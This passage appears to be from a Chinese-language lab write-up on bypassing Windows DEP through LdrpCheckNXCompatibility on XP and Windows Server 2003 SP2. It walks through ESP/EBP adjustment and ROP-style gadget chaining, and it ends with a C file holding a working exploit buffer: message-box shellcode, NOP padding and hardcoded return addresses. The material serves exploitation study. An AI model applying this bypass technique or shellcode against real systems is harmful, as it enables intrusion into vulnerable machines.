 当ESP小于EBP时，可以用减小ESP或者增大EBP的方法。由于shellcode位于内存低址，所以减小ESP可能会破坏shellcode，所以可以增大EBP，但是本实验找不到！变通的方法是增大ESP到安全位置，让EBP和ESP之间的空间足够大，这样压栈就不会冲刷EBP内容。
可以用OllyFindAddr插件中的Overflow return address->POP RETN+N选项查找指令。我们选择0x7C974A19处的RETN 0x28来增大ESP。

这其中的关系有点绕，所以我也不打算继续讲了，需要我们进行实际调试！

<b>最终的shellcode组成</b>
1. 【操作7】168字节的弹出对话框机器码
2. 12字节的0x90填充
3. 【操作1】将AL置1，并重新掌握控制权 "\x52\xE2\x92\x7C"
4. 【操作2】修正EBP "\x85\x8B\x1D\x5D"
5. 【操作3】增大ESP "\x19\x4A\x97\x7C"
6. 【操作5】 JMP ESP至最后一段 "\xB4\xC1\xC5\x7D"
7. 【操作4】关闭DEP "\x24\xCD\x93\x7C"
8. 【操作6】回跳至shellcode "\xE9\x33\xFF\xFF\xFF\x90\x90\x90"

#### 1.4 Windows Server 2003 SP2实验内容

<font color=#f00>我的实验是用的Windows Server 2003 Enterprise SP2</font>

由于windows 2003 SP2对LdrpCheckNXCompatibility函数进行了少许修改，导致该函数在执行的过程中会对ESI指向的内存附近进行操作。所以可以利用push esp pop esi retn来调整ESI，这些指令在Disable DEP->Disable DEP>=2003 SP2搜索结果的step4部分。

变通的方法：
1. 找到pop eax retn指令，并让程序转入该位置执行
2. 找到一条pop esi retn指令，并保证在执行1中的pop eax时对它的地址位于栈顶，这就可以将地址放到eax中
3. 找到push esp jmp eax指令，并转入执行

最终windows server 2003 sp2测试时对应的代码为：
<pre><code>
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;windows.h&gt;

char shellcode[] = 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xE9\x77\xBE\x77"		// 修正EBP
	"\x81\x71\xBA\x7C"		// pop eax retn
	"\x0A\x1A\xBF\x7C"		// pop pop pop retn
	"\xA5\x6F\xBE\x7C"		// pop esi retn
	"\xBF\x7D\xC9\x77"		// push esp jmp eax
	"\x5F\xFB\x87\x7C"		// retn 0x30
	"\x17\xF5\x96\x7C"		// 关闭DEP代码的起始位置
	"\x23\x1E\x1A\x7D"		// jmp esp
	"\xE9\x27\xFF\xFF\xFF\x90\x90\x90";  // jmp shellcode
